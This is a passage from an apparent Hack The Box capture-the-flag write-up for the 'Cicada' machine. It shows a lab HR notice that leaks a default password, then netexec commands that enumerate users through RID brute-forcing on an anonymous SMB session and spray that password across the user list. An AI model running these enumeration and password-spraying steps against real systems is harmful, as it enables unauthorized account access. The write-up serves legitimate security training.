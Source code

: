 Lets look inside this `Notice from HR.txt` file 🔻

```
┌──(kali🔥kali)-[~/Downloads/HTB/Cicada]
└─$ cat Notice\ from\ HR.txt                                                        

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Let's gather some users as this <span style="color:#f04276">Anonymous</span> user also got access to read `$IPC` share that means , It can also enumerate users and groups from this <mark style="background: #FF5582A6;">netexec</mark> Tool only.

```bash
nxc smb 10.10.11.35 -u 'Anonymous' -p '' --rid-brute
```
![](Pasted%20image%2020241009170945.png)

I separated all the users in a file named as `users.txt` file.
Now lets check which user hash this password `Cicada$M6Corpb*@Lp#nZp!8`.

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success --shares
```
![](Pasted%20image%2020241009170744.png)

I got these share while checking this user <span style="color:#f04276">michael.wrightson</span> 🔻
